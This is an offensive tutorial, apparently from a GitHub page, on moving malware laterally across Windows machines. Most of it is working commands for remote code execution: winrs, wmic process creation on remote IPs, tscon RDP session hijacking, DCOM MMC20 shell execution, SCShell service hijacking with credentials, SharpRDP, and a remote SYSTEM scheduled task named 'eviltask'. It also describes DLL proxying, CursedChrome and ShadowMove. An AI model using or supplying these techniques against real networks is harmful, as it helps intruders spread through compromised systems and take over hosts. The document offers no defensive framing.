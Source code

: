 ## How to laterally move the malware inside the system ? 

- `winrs -r:ws01 "cmd /c hostname & notepad"` command uses the winrs binary to start the notepad and hostname processes inside the machine named `ws01` from the different machine.

- We can use  Windows Management Instrumentation for code execution in another compromised system from a victim system.
    - `wmic /node:10.0.0.6 /user:administrator process call create "cmd.exe /c calc"` can spawn the cmd.exe and calc processes inside the machine with ip address 10.0.0.6 from another victim system.

- RDP Hijacking or Using Remote Desktop. The `tscon.exe` is an important binary that allows us to connect to other users without being prompted for password for that particular user. It requires privilege escalation. `cmd /k tscon 2 /dest:console` command gives us the desktop session of the console session user while we just entered the password for the user whose session name is `console`.

- Using DCOM:
     - `$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))` connects to the other victim.
     - `$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")` command executes `cmd /c hostname > c:\fromdcom.txt` command inside the cmd prompt.
     - `[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))` can be used to give us the info if the command was executed successfully or not.

- Using `ScShell` tool to automate the process where we change the service binpath of the Service Configuration Manager to the malicious command or payload  of ours.
    - `.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456`
    - Here `scshell.exe ws01 <VictimService> <MaliciousCommand> <user> offense <password>`

- We can implement TCP relaying or port forwarding

- Here we copy the payload into a dummy DLL that is having the same name and IAT as a missing legitimate DLL that will be proxied and thus will get executed by the system even after being malicious.

- We can use SharpRDP to connect to the remote machine `SharpRDP.exe computername=dc01 command=calc username=offense\administrator password=123456`

- We can use the Chrome extension `CursedChrome`. It is able to open any web pages at hidden level too and can give us the connection proxy to execute any commands.

- ShadowMove.exe duplicates the socket that is connected to any remote connection host and then it duplicates that socket to establish the connection to the attacker.The catch is that it doesnot communicate with the server of the attacker at any point and thus is very difficult to detect.


- `schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password` for svchost as parent process for movement.
